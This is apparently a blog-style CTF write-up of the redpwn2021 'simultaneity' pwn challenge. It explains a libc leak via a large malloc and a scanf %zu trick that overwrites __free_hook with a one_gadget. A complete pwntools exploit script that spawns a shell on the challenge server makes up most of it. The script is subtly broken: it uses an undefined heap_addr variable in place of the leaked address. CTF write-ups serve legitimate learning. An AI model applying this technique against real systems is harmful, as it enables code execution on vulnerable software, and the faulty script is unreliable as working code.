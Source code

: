 ```yaml
---
title: simultaneity
date: 2021-07-11
categories: [pwn]
tags: [redpwn2021]
toc: false
---
```


#### Notes:
- Upon initial inspection we see that all mitigations are enabled besides stack canary (Full RELRO, PIE, NX)
- Looking at the code we can see that there are multiple scanf() calls as well as a leak from calling malloc() with a user specified size
- Now this is looking like a write what where primitive, with full relro, meaning we can't overwrite GOT entries and have to look deeper
- I was overthinking this challenge heavily and went off on several tangents, digging into FSOP and rtld based exploits (which are interesting)

#### Behavior:
- The program asks us "how big?" (long integer) which prompts our size input and allows us to leak a pointer to heap memory
- The program asks us "how far?" prompting another input (long integer)
- Finally, the program asks us "what?" prompting us to write to an address + distance (unsigned int with length modifier)

#### Caveats: 
- Since this is a write what where challenge, we usually can just overwrite a function that will be called later and we win. But in this case, we only have one 8byte write and _exit is being called instead of exit(), which eliminates the chances of using rtld based exploits. 
    - https://koharinn.tistory.com/218
- So we know that we can only write one time and something has to happen "simultaneously" (name of the challenge gives a subtle hint)

#### Plan:
- We need a libc leak of some kind, but we only get a pointer to a heap address. So by providing a large input such as 900000, we get a leak to a mmap'd location, which is close to libc
- Using the above leak, we can calculate the libc base and our target
- Looking at how the last scanf() uses %zu as a format specifier, we can abuse the scanf() internals by causing it to create heap space on our payload as well as overwrite our target function
- Using the distance formula my friend created (@biazo), we targeted the __free_hook function and forced scanf() to call malloc by providing an input that contains 0x1000 '0' + one_gadget  
- This works because sending 000000000000000...0000+one_gadget will basically create heap space without messing up our payload (it will treat it like 000009 = 9). Trying 111111111.11111+one_gadget will overwrite __free_hook with 0xffffffffffffff 

#### main():

![Snipper of main()](/assets/img/redpwn2021/main.png)

#### PoC:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./simultaneity --host mc.ax --port 31547
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./simultaneity')
context.terminal = ['tmux','splitw','-v']
libc = ELF('./libc.so.6')
# libc = exe.libc

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31547)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
set verbose on
tbreak main
b __isoc99_scanf
b _exit
continue
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

def dist(heap_addr, target_addr):
    target_index = (0xFFFF_FFFF_FFFF_FFFF - heap_addr) + target_addr + 8
    target_index = (target_index >> 3)
    return target_index

def run(m_len):

    io.sendlineafter(b'how big?\n', str(m_len))

    io.recvuntil('you are here: ')

    leak_addr = int(io.recvline()[:-1],16)
    print(f'Leaked addr is {hex(leak_addr)}')
    libc_base = leak_addr + 0xdbff0
    print('Libc base: ', hex(libc_base))
    libc.address = libc_base

    # Change target address for write where
    # __free_hook
    target_addr = libc.address + 0x1bd8e8
    print('target addr: ', hex(target_addr))
    m_index = dist(heap_addr, target_addr)
    print('how far?: ', m_index)
    io.sendlineafter(b'how far?\n', str(m_index))

    # Change target_data for write what 
    """
    one_gadgets:
    0x4484f
    0x448a3
    0xe5456
    """
    libc_target_offset = 0xe5456
    target_data = libc.address + libc_target_offset

    one_gad = target_data
    print(f'Writing {hex(target_data)}')
    # Create large input with many zeroes to force scanf to call malloc/free without changing our one_gad payload
    io.sendlineafter(b'what?\n', str(0x1000 * '0')+str(one_gad))
io = start(env={"LD_PRELOAD":"./libc.so.6 "})

run(900000)

io.interactive()
#flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}
```